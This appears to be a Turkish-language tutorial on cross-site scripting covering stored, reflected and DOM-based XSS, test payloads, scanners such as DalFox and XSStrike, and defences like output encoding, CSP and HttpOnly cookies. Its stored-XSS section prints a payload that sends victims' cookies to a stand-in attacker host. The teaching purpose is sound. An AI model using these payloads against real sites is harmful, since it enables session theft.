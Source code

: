 :
### XSS (Cross-Site Scripting) Nedir?
XSS (Cross-Site Scripting), saldırganların bir web sitesine zararlı JavaScript kodu enjekte etmesine olanak tanıyan bir güvenlik açığıdır. Bu kod, siteyi ziyaret eden diğer kullanıcıların tarayıcılarında çalıştırılır ve oturum çalma, kimlik bilgisi hırsızlığı, keylogger yerleştirme veya kötü amaçlı yönlendirmeler gibi saldırılara sebep olabilir.

## 1️⃣ XSS Türleri
### 1️⃣ Stored XSS (Depolanmış XSS)
### Açıklama: Zararlı JavaScript kodunun kalıcı olarak web sitesine kaydedildiği saldırı türüdür. Kullanıcı siteyi ziyaret ettiğinde kod otomatik olarak çalıştırılır.
### Örnek:
Yorum, mesaj, forum postları gibi kullanıcı tarafından girilen verilerin kaydedilmesi
Profil isimleri, blog içerikleri veya ürün açıklamalarına zararlı kod eklenmesi
Payload Örneği:
Bir yorum alanına aşağıdaki gibi bir XSS payload eklenirse, sayfayı ziyaret eden herkesin tarayıcısında bu kod çalışacaktır:
```html
<script>alert('XSS')</script>
```


- 🔹 Korunma Yöntemleri:

- ✅ Kullanıcı girişlerini HTML encode ile filtrele

- ✅ CSP (Content Security Policy) kullanarak zararlı komutları engelle

### 2️⃣ Reflected XSS (Yansıtılmış XSS)

### Açıklama: Kullanıcının tarayıcısına anında geri dönen XSS türüdür. Saldırgan genellikle zararlı bir link oluşturarak kurbanı bu linke tıklaması için kandırır.

### Örnek:

Arama kutusu, hata mesajları veya URL parametrelerinde işlenen zararlı kodlar

Payload Örneği:

```html
https://target.com/search?q=<script>alert('XSS')</script>
Bu linke tıklayan kişinin tarayıcısında alert() penceresi açılacaktır.
```
🔹 Korunma Yöntemleri:

✅ Girdi doğrulaması ve filtreleme yap

✅ XSS korumalı framework’ler (React, Angular gibi) kullan


### 3️⃣ DOM-Based XSS
### Açıklama: Zararlı JavaScript kodunun tarayıcı tarafından çalıştırıldığı XSS türüdür. Burada saldırı, web sunucusu yerine tarayıcı tarafında (DOM manipülasyonu ile) gerçekleştirilir.
### Örnek:
Bir URL parametresi innerHTML veya document.write() gibi unsurlara aktarılırsa XSS oluşabilir:
```js
var userInput = location.hash.substring(1);
document.write(userInput);
```
Eğer saldırgan şu URL’yi kurbanla paylaşırsa:
```html
https://target.com/#<script>alert('XSS')</script>
Kurban bu linke girdiğinde XSS çalışacaktır.
```
🔹 Korunma Yöntemleri:
✅ innerHTML, document.write(), eval() gibi güvenliksiz fonksiyonları kullanma
✅ Kullanıcı girdilerini sanitize et ve encode uygula


## 2️⃣ XSS Açığını Tespit Etme
### Manuel Testler:
<script>alert('XSS')</script> gibi payload’ları dene
Burp Suite Repeater kullanarak dinamik alanları test et
DOM manipülasyonu yapan alanları analiz et
### Otomatik Araçlar:
Burp Suite Scanner
XSStrike
DalFox
Nuclei XSS Tarama

```bash
nuclei -t vulnerabilities/xss -u https://target.com
```

## 3️⃣ XSS’ten Korunma Yöntemleri

- ✅ Girdi Doğrulaması: Kullanıcının girdiği verileri kontrol et

- ✅ Çıkışta Filtreleme: HTML encode uygula (<script> yerine &lt;script&gt;)

- ✅ CSP (Content Security Policy) Kullan: Sadece güvenli kaynaklardan script çalıştır

- ✅ HttpOnly ve Secure Cookie Kullan: Oturum çalınmasını engelle

### Sonuç
XSS, web uygulamalarında en yaygın güvenlik açıklarından biri olup saldırganların oturum çalmasına, sayfa içeriğini değiştirmesine veya kullanıcıları zararlı sitelere yönlendirmesine neden olabilir. Bu yüzden girdi doğrulaması, filtreleme ve güvenli kodlama prensipleri ile korunma sağlanmalıdır. 🚀

_______________________________________________________________________________________

### URL ile XSS (Reflected ve DOM-Based XSS) Nedir?

URL ile XSS saldırıları genellikle Reflected XSS ve DOM-Based XSS şeklinde gerçekleşir. Saldırgan, mağdurun tarayıcısında çalışacak kötü niyetli bir JavaScript kodunu URL’ye enjekte eder. Mağdur bu URL’yi açtığında zararlı kod çalışır.

## 1️⃣ Reflected XSS ile URL Üzerinden Saldırı

Reflected XSS, web sunucusunun, URL’den gelen girdiyi filtrelemeden sayfaya yerleştirmesi sonucu oluşur. Kullanıcı URL’deki kötü amaçlı JavaScript içeren bağlantıya tıkladığında tarayıcısında kod çalışır.

### Örnek Zafiyetli URL:

Bir arama kutusu içeren site düşünelim:

```html
https://target.com/search?q=deneme
```
Sunucu, bu değeri sayfa içine yansıtır:
```html
<p>Arama Sonucu: deneme</p>
```
Eğer giriş doğrulaması yapılmazsa, URL’ye bir JavaScript kodu enjekte edilebilir:

```html
https://target.com/search?q=<script>alert('XSS')</script>
```
Bu durumda, site bu girdiyi doğrudan sayfaya eklediğinde saldırı gerçekleşir:

```html
<p>Arama Sonucu: <script>alert('XSS')</script></p>
```
Sonuç: Kurban bu linke tıklarsa tarayıcısında alert('XSS') açılır.

✅ Test Etmek İçin Kullanılabilecek Payload’lar:
```html
https://target.com/search?q=<script>alert(1)</script>
https://target.com/search?q="><script>alert(1)</script>
https://target.com/search?q=<svg/onload=alert(1)>
https://target.com/search?q=<img src=x onerror=alert(1)>
https://target.com/search?q=<body onload=alert(1)>
```


🛠️ 2️⃣ DOM-Based XSS ile URL Üzerinden Saldırı

DOM-Based XSS, JavaScript’in document.write(), innerHTML, location.href, eval() gibi güvenliksiz fonksiyonları kullanması nedeniyle oluşur. Bu durumda saldırı, sunucu tarafında değil, tarayıcı tarafında gerçekleşir.

### Örnek Güvenlik Açığı:
Aşağıdaki kod, URL’de bulunan msg parametresini alıp sayfaya eklemektedir:
```html
<script>
var message = new URLSearchParams(window.location.search).get("msg");
document.write(message);
</script>
```
Eğer bir saldırgan şu URL’yi kullanırsa:

```html
https://target.com/index.html?msg=<script>alert('XSS')</script>
```
Sayfayı ziyaret eden kullanıcının tarayıcısında XSS çalışacaktır.

✅ DOM-Based XSS Test İçin URL Payload’ları:

```html
https://target.com/index.html#<script>alert('XSS')</script>
https://target.com/index.html?msg=<img src=x onerror=alert(1)>
https://target.com/index.html?data=<svg/onload=alert(1)>
https://target.com/index.html?msg=<body onload=alert(1)>
```


🔎 3️⃣ URL ile XSS Açığını Test Etme

- ✅ Burp Suite Repeater ile URL’deki parametreleri test et

- ✅ Manuel Payload Denemeleri yaparak sayfanın çıktısını incele

- ✅ DalFox & XSStrike gibi araçlarla otomatik tarama yap

```bash
dalfox url "https://target.com/search?q=test"
xsstrike -u "https://target.com/search?q=test"
```

✅ Developer Console’da (F12) JavaScript analizi yap

```js
document.write(location.search);
```


## 4️⃣ XSS Açıklarından Korunma Yöntemleri

- 🚫 Kullanıcı girişlerini doğrudan sayfaya yazdırma!

- ✅ Girdi doğrulaması yap ve özel karakterleri filtrele (<, >, ", ', / gibi karakterleri engelle)

- ✅ HTML encode kullan:
```js
function escapeHTML(str) {
    return str.replace(/[&<>"']/g, function (match) {
        return {
            '&': '&amp;',
            '<': '&lt;',
            '>': '&gt;',
            '"': '&quot;',
            "'": '&#39;'
        }[match];
    });
}
```
✅ CSP (Content Security Policy) kullanarak yalnızca güvenilir kaynaklardan script çalıştır
✅ HttpOnly ve Secure flag içeren çerezler kullanarak oturum çalınmasını önle

### Sonuç

URL ile XSS saldırıları, kullanıcıları kandırarak zararlı kod çalıştırmak için yaygın olarak kullanılan bir yöntemdir. Reflected XSS ve DOM-Based XSS açıklarını önlemek için güvenli kodlama prensipleri uygulanmalı ve uygun koruma yöntemleri alınmalıdır. 🚀
_____________________________________________________________________________________

### Kayıtlı XSS (Stored XSS) Nedir?

Kayıtlı XSS (Stored XSS), saldırganın zararlı JavaScript kodunu bir web sitesinin veritabanına veya kalıcı bir depolama alanına kaydetmesiyle oluşan bir güvenlik açığıdır. Bu tür saldırılar, yorum bölümleri, mesaj panoları, kullanıcı profilleri veya forumlar gibi veri girişlerinin kaydedildiği yerlerde yaygındır.

- ✅ Stored XSS ile saldırı başarılı olursa:

Zararlı kod herkese çalıştırılır.

Kullanıcı tarayıcılarında session çalma, keylogger, phishing saldırıları yapılabilir.

Etkilenen herkes saldırıdan habersiz kalır.

## 1️⃣ Kayıtlı XSS Örneği

Bir web sitesinde yorum ekleyebildiğimiz bir alan olduğunu düşünelim. Kullanıcı, aşağıdaki gibi bir yorum yazarsa:
```html
<script>alert('XSS')</script>
Ve web sitesi bu girdiyi filtrelemeden veritabanına kaydeder ve sayfaya eklerse, tüm ziyaretçiler için JavaScript kodu otomatik olarak çalışır.
```
📌 Örnek Kötü Amaçlı Girdi
```html
<script>document.location='http://attackersite.com/steal?cookie='+document.cookie</script>
Bu kod, kurbanın çerezlerini saldırgana gönderir.
```

🛠️ 2️⃣ Kayıtlı XSS Açığını Test Etme

- ✅ Kendi yorumlarını kontrol et:

Form alanlarına <script>alert("XSS")</script> gibi payload’lar gir.

Yorum ekle ve sayfa yenilendiğinde çalışıp çalışmadığını kontrol et.

- ✅ Gizli JavaScript çalıştır:
Bazı sitelerde alert() kapalı olabilir, ancak aşağıdaki kodlar çalışabilir:

```html
<script>console.log("XSS Test")</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
```
Eğer yukarıdaki kodlar çalışıyorsa Stored XSS açığı var demektir.

✅ Burp Suite Proxy ile HTTP requestleri analiz et:

Form verilerini Intercept (yakala) yaparak sunucuya gönderilen POST/GET isteklerini incele.

XSS payload’larını farklı alanlara enjekte ederek sitenin nasıl tepki verdiğini kontrol et.

✅ Automated XSS Scan (Otomatik Tarama) için Araçlar Kullan:
DalFox:

```bash
dalfox url "https://target.com/comment"
XSStrike:
```
```bash
xsstrike -u "https://target.com/comment"
```

## 3️⃣ Kayıtlı XSS Açıklarından Korunma Yöntemleri

- ✅ Girdi Doğrulama ve Filtreleme:

HTML encode yap: Kullanıcının girdiği <script> gibi etiketleri &lt;script&gt; olarak dönüştür.

Girdi uzunluğu sınırlı olsun: <script> gibi zararlı kod eklemek için uzun metinler gereklidir.

Yalnızca izin verilen karakterleri kullan: Örneğin, yorum alanına sadece harf, sayı ve belirli noktalama işaretlerini eklemeye izin ver.

- ✅ Çıktı Temizleme (Output Encoding):

Kullanıcının girdiği verileri innerHTML, document.write gibi fonksiyonlarla doğrudan eklemeyin!

Bunun yerine textContent veya innerText kullanın:
```js
document.getElementById("comment").textContent = userInput;

```
✅ CSP (Content Security Policy) Kullan:

Yalnızca belirli kaynaklardan JavaScript çalıştırılmasını sağlamak için CSP ekleyin.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-source.com;">

```
✅ HttpOnly ve Secure Çerez Kullanımı:

Çerezleri HttpOnly olarak ayarlayarak JavaScript ile okunmasını engelleyin:

```bash
Set-Cookie: session=xyz; HttpOnly; Secure
```

### Sonuç
Kayıtlı XSS, kalıcı ve tehlikeli bir açık olup, saldırganın zararlı kodu bir defa enjekte ettikten sonra her kullanıcıyı etkileyebildiği bir saldırıdır. Güvenli kodlama, çıktı temizleme ve CSP kullanımı ile bu tür saldırılar önlenebilir. 🚀
______________________________________________________________________________________
## XSS'ten Korunma Yöntemleri
XSS (Cross-Site Scripting) saldırılarından korunmak için girdi doğrulama, çıktı temizleme ve güvenlik önlemleri almak gereklidir. İşte XSS'ten korunmak için almanız gereken önlemler:

### 1️⃣ Kullanıcı Girdilerini Doğrulayın ve Filtreleyin

Kullanıcıdan gelen her veriyi güvenli kabul etmeyin!

Yalnızca izin verilen karakterleri kabul edin. (Beyaz liste yöntemi)

HTML etiketlerini temizleyin veya encode edin.


Örnek (Python – Flask)
```python
from markupsafe import escape  
@app.route("/comment", methods=["POST"])
def comment():
    user_input = escape(request.form["comment"])  # HTML encode
    return f"Yorum kaydedildi: {user_input}"
✅ escape() fonksiyonu zararlı HTML etiketlerini &lt;script&gt; gibi encode eder.
Örnek (PHP)
```
```php
$user_input = htmlspecialchars($_POST["comment"], ENT_QUOTES, 'UTF-8');
✅ htmlspecialchars() zararlı karakterleri HTML olarak encode eder.
```

### 2️⃣ Çıktı Temizleme (Output Encoding)
Kullanıcı girdisini doğrudan sayfaya eklemeyin!
innerHTML, document.write() gibi fonksiyonlar yerine textContent veya innerText kullanın.
Örnek (JavaScript)
```js
document.getElementById("comment").textContent = userInput;
✅ textContent doğrudan HTML yerine sadece metin olarak ekler.
```

### 3️⃣ Güçlü Content Security Policy (CSP) Kullanın
CSP, tarayıcının belirli kaynaklardan gelen scriptleri engellemesini sağlar.
Örnek (Meta Tag ile CSP)
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-cdn.com;">
✅ Yalnızca belirli kaynaklardan JavaScript çalıştırılmasını sağlar.
Örnek (HTTP Header ile CSP)
```
```bash
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-scripts.com
```

4️⃣ HttpOnly ve Secure Çerezleri Kullanın
XSS saldırıları genellikle çerez çalmak için yapılır. HttpOnly çerezler JavaScript ile erişilemez.
Örnek (Set-Cookie Header)
```bash
Set-Cookie: session=xyz; HttpOnly; Secure
```

- ✅ HttpOnly çerezleri JavaScript ile okunamaz.

- ✅ Secure sadece HTTPS üzerinden gönderir.

5️⃣ Güvenli JavaScript Kullanımı
eval(), document.write(), setInnerHTML() gibi fonksiyonlardan kaçının!
Eğer JSON verisi işleniyorsa, JSON.parse() kullanın, eval() kullanmayın!

Yanlış Kullanım (XSS Açığı Var)
```js
var userInput = "<script>alert('XSS')</script>";
document.body.innerHTML = userInput;  // XSS saldırısına açık
```
Doğru Kullanım
```js
document.body.textContent = userInput;  // Güvenli
```


6️⃣ Web Uygulama Güvenlik Duvarı (WAF) Kullanın
Cloudflare, AWS WAF, ModSecurity gibi güvenlik duvarları zararlı XSS payload'larını engelleyebilir.

### Sonuç
XSS saldırılarından korunmak için girdi doğrulama, çıktı temizleme, CSP, güvenli çerezler ve güvenli kodlama yöntemlerini uygulamak gerekir. 🚀




